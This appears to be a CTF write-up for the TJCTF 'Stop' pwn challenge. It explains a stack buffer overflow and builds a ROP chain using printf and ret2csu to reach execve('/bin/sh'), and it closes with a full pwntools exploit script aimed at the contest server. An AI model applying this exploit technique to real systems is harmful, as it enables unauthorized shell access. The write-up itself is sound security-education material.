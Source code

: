 # tjctf: binary

## Stop [70]

Written by KyleForkBomb

_I love playing stop, but I am tired of losing. Check out my new stop answer generator!_

_It's a work in progress and only has a few categories, but it's 100% bug-free!_

`nc p1.tjctf.org 8001`

## Inspection

```bash
$ ./stop.o
Which letter? _
```

As difficulty ramps up, so does source code complexity:

```c
int get_letter(){ int c = getchar(); ... }
int get_category(char *s){ ... }
int main() {
  char s1[256]; // [rsp+0h] [rbp-110h]
  int category; // [rsp+100h] [rbp-10h]
  int s_len;    // [rsp+104h] [rbp-Ch]
  int letter;   // [rsp+108h] [rbp-8h]
  int i;        // [rsp+10Ch] [rbp-4h]

  printf("Which letter? ", 0LL);
  letter = get_letter();
  getchar();
  if ( letter == -1 ) {
    printf("That's not a letter!\n");
    return 1;
  printf("\n");
  for ( i = 0; i <= 4; ++i )
    printf("%s\n", categories[i]);
  printf("\n");
  printf("Category? ");
  s_len = read(0LL, s1, 598LL); //BOF here!
  s1[s_len - 1] = '\0';
  category = get_category(s1);
  if ( category == -1 )
    printf("\nSorry, we don't have that category yet\n");
  else
    printf("\nYour answer is: %s\n", answers[category + 5LL * letter]);
}
```
Let's start off simple. There is a buffer overflow (of `0x256` on `s1[256]`) without any stack protector to halt it:

<p align="center">
<img src="checksec.png">
</p>

Since the buffer overflow's at `"Category? "`, we ignore `get_letter()` for now<sup>1</sup>. Taking a look at `get_category()`, there's not much to be done there either — it just gives back a small value within the boundaries of `answers[]`. 
```c
int get_category() {
  int i;
  for ( i = 0; i <= 4; ++i ) {
    if ( !strcasecmp(categories[i], a1) )
      return (unsigned int)i;
  }
  return 0xFFFFFFFFLL;
}
```
What we're left with is an 0x256-256-24 == 326 byte buffer overflow, with little else to do. Where do we go from here?

## Gadget Grabbing

Running `ropper` on the binary, I noticed a curio:
<p align="center">
<img src="curio.png">
</p>

The binary has a `syscall` instruction in it, which is naturally indicative of a Return Oriented Programming attack vector. This also brought to attention something I'd failed to notice in IDA: the `read()` function is actually implemented as a syscall wrapper in `Stop`:

<p align="center">
<img src="read.png">
</p>

With that in mind, we've a simple strategy to get through to `/bin/sh`:
1. overflow to the return pointer
2. set a ROP chain to rax=59, rdi="/bin/sh", rsi=rdx=0
3. `syscall` to execve("/bin/sh")
4. Use `read()` to write extra rop-chains if 326 bytes isn't enough<sup>2</sup>

(1) is simple enough. Using `pwn.cyclic()`, we can find the offset to the first return pointer in `gdb`: 

<p align="center">
<img src="cyclic.png">
</p>

Doing (2)? Not as simple.

## Black Magic

<p align="center">
<img src="ropper.png">
<br><i>404</i><br>
</p>

We've got access to `rdi` and `rsi`, nominally the first two arguments for x64 functions. Unfortunately, there's no immediate gadget that allows us to set the value of the other two gadgets — `rax` and `rdx` — arbitrarily.

For `rax`, we first considered using `get_letter()` as a gadget, but its `cmp` restrictions (of `96 < char <= 122`) are too large to immediately set rax=59. Although it is possible to reach arbitrary `rax` using a well-placed `[rbp-4]`, this was not immediately apparent at the time.

Instead, knowing that we had access to rdi and rsi, we dug through the binary for a "string" (sequence of non-'\0' bytes) of length 59, using rdi="[length-59 C-string]" and `printf()` to write the length to rax.

<p align="center">
<img src="manpage.png">
<br><i>That thing no one ever reads</i><br>
</p>

<p align="center">
<img src="hexview.png">
<br><i>That (other) thing that people demean as obtuse</i><br>
</p>

At this point, the stack might look something like this:

```
+---s[]---+-------------ROP-chain-----------------+
| garbage | pop-rdi | "len59_str" | .plt printf() |
+---272---+----------------3*8--------------------+
```

Tacking on the rsi/rdi edits needed for the syscall, it'll expand to this:
```
+---s[]---+-------------ROP-chain-----------------+----------------more-ROP---------------+
| garbage | pop-rdi | "len59_str" | .plt printf() | pop-rsi | 0 | 0 | pop-rdi | "/bin/sh" |
+---272---+----------------3*8--------------------+------------------5*8------------------+
```

We're still left with `rdx`, which _may_ already be zero without attacker intervention, but we can apply ret2csu<sup>3</sup> to turn that into a guarantee.

## Execution

The final ROP chain will look like this:
```
+---s[]---+----------------csu part 1---------------+--------------csu part 2------------->
| garbage | gadget1 | 0 | 1 | &_DYNAMIC | 0 | 0 | 0 | gadget2 | 0 | 0 | 0 | 0 | 0 | 0 | 0 > 
+---272---+--------------------56-------------------+------------------64----------------->
<---------------rax=59------------------+---------------rdi=rsi=0---------------+-/bin/sh-+
< pop-rdi | "len59_str" | .plt printf() | pop-rsi | 0 | 0 | pop-rdi | "/bin/sh" | syscall |
<----------------3*8--------------------+------------------5*8------------------+----8----+
```

<p align="center">
<img src="interactive.png">
</p>

Works on first try.

## flag

`tjctf{st0p_th4t_r1ght_now}`

## code
```python
from pwn import *
#lots of constants
r_offset = cyclic_find("uaac") #find this empirically
E = ELF('./stop.o')
binsh = 0x400A1A        #location of the "/bin/sh" string
len59 = 0x4006F0+5-59   #an eyeballed address containing a 59-byte long C-string
printf = E.symbols['printf']
#find these gadgets from ropper, or otherwise
pop_rdi = 0x400953
pop_six = 0x40094A
pop_rsi_r15 = 0x400951
mov_rdx_call = 0x400930
dynamic_init = 0x601de0 #x/5g &_DYNAMIC
read_syscall = E.symbols['read']    #the read() function
#helper functions to create ROPchains that write to certain registers
ret2csu = lambda rdx: [pop_six, 0, 1, dynamic_init, 0, 0, rdx]+[mov_rdx_call]+[0]*7
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_r15, rsi, 0]
#rop chain starts here
rop = ret2csu(0)                #rdx = 0
rop+= [pop_rdi, len59, printf]  #rdi = "<length-59 str>"; printf(rdi)
rop+= rdi_rsi(binsh, 0)         #rdi = "/bin/sh", rsi = 0
rop+= [read_syscall+5]          #syscall
rop = ''.join(map(p64,rop))
r = remote('p1.tjctf.org', 8001)
r.sendlineafter('? ', 'a')
assert len(rop)+r_offset < 598  #input requirement
r.sendlineafter('? ', 'a'*r_offset + rop)
r.interactive()
```
## footnotes
1. `get_letter()` could be used as a way to edit rax, but `printf()` felt simpler.
2. This _was_ a problem, but the solution shown here doesn't deal with this.
3. https://www.rootnetsec.com/ropemporium-ret2csu/
